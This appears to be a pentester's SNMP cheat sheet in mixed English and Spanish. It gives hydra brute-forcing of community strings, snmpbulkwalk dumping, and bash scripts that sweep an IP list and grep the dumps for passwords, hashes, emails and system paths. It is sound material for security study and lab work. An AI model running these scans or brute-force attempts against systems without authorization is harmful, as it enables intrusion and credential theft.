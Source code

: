 ```yaml
---
layout: default
title: 161,162,10161,10162 - SNMP
---
```

### VERSIONS

There are 2 important versions of SNMP:

- **SNMPv1**: Main one, it is still the most frequent, the **authentication is based on a string** (community string) that travels in **plain-text** (all the information travels in plain text). **Version 2 and 2c** send the **traffic in plain text** also and uses a **community string as authentication**.
- **SNMPv3**: Uses a better **authentication** form and the information travels **encrypted** using (**dictionary attack** could be performed but would be much harder to find the correct creds than in SNMPv1 and v2).

Para guessear la community string hay que hacer fuerza bruta -> [Brute Force - CheatSheet - HackTricks](https://book.hacktricks.wiki/en/generic-hacking/brute-force.html#snmp)

```bash
hydra -P /usr/share/SecLists/Discovery/SNMP/common-snmp-community-strings.txt monitored.htb snmp
```

Dumpear info

```bash
snmpbulkwalk -c public -v2c IP . | tee snmp_data
```

Procesos corriendo (pueden tener contraseñas)

```bash
grep "\.1312 = " snmp_data
```

### [**Devices**](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-snmp/index.html?highlight=snmp#devices)

The process begins with the extraction of **sysDesc MIB data** (1.3.6.1.2.1.1.1.0) from each file to identify the devices. This is accomplished through the use of a **grep command**:

```bash
grep ".1.3.6.1.2.1.1.1.0" *.snmp
```
### [**Identify Private String**](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-snmp/index.html?highlight=snmp#identify-private-string)

A crucial step involves identifying the **private community string** used by organizations, particularly on Cisco IOS routers. This string enables the extraction of **running configurations** from routers. The identification often relies on analyzing SNMP Trap data for the word "trap" with a **grep command**:

```bash
grep -i "trap" *.snmp
```
### [**Usernames/Passwords**](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-snmp/index.html?highlight=snmp#usernamespasswords)

Logs stored within MIB tables are examined for **failed logon attempts**, which might accidentally include passwords entered as usernames. Keywords such as _fail_, _failed_, or _login_ are searched to find valuable data:

```bash
grep -i "login\|fail" *.snmp
```
### [**Emails**](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-snmp/index.html?highlight=snmp#emails)

Finally, to extract **email addresses** from the data, a **grep command** with a regular expression is used, focusing on patterns that match email formats:

```bash
grep -E -o "\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}\b" *.snmp
```

```bash
#!/bin/bash

# Fichero con las IPs
IPLIST="ips.txt"
COMMUNITY="public"
VERSION="2c"

while read ip; do
    echo "[*] Consultando $ip ..."
    snmpbulkwalk -v$VERSION -c $COMMUNITY "$ip" > "snmp_$ip.txt"
    
    if [[ $? -eq 0 ]]; then
        echo "[+] Finalizado: $ip -> Guardado en snmp_$ip.txt"
    else
        echo "[!] Error al consultar $ip"
    fi
    echo "-----------------------------------------"
done < "$IPLIST"

echo "[✔] Proceso completado."

```

```bash
#!/bin/bash
# Script para buscar información sensible en resultados de snmpbulkwalk

CARPETA="."
ARCHIVOS=$(ls $CARPETA/snmp_*.txt 2>/dev/null)

if [[ -z "$ARCHIVOS" ]]; then
    echo "[!] No se encontraron archivos snmp_*.txt en $CARPETA"
    exit 1
fi

echo "[*] Analizando archivos SNMP..."

for f in $ARCHIVOS; do
    echo "=============================================="
    echo "[*] Archivo: $f"
    
    # Usuarios y credenciales
    grep -iE "user|username|login|account" "$f" && echo "--- Usuarios detectados"
    grep -iE "pass|pwd|password" "$f" && echo "--- Contraseñas detectadas"
    grep -iE "secret|key|community" "$f" && echo "--- Claves detectadas"
    
    # Configuración y ficheros
    grep -iE "conf|config|backup|shadow" "$f" && echo "--- Configuración sensible"
    grep -iE "/etc|/home|/var|shadow|passwd" "$f" && echo "--- Rutas del sistema"

    # Hashes comunes
    grep -E "[a-f0-9]{32}" "$f" && echo "--- Posibles MD5"
    grep -E "[a-f0-9]{40}" "$f" && echo "--- Posibles SHA1"
    grep -E "[a-f0-9]{64}" "$f" && echo "--- Posibles SHA256"

    # IPs y dominios
    grep -Eo "([0-9]{1,3}\.){3}[0-9]{1,3}" "$f" | sort -u && echo "--- IPs encontradas"
    grep -iE "\.com|\.net|\.org|\.local|\.corp" "$f" && echo "--- Dominios encontrados"

    # Correos electrónicos
    grep -E -o "\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}\b" "$f" | sort -u && echo "--- Emails encontrados"

    # Traps
    grep -i "trap" "$f" && echo "--- Posibles traps SNMP detectados"

    # Intentos de login fallidos
    grep -i "login\|fail" "$f" && echo "--- Logs de login/fallos detectados"

    echo
done

echo "[✔] Búsqueda completada."

```
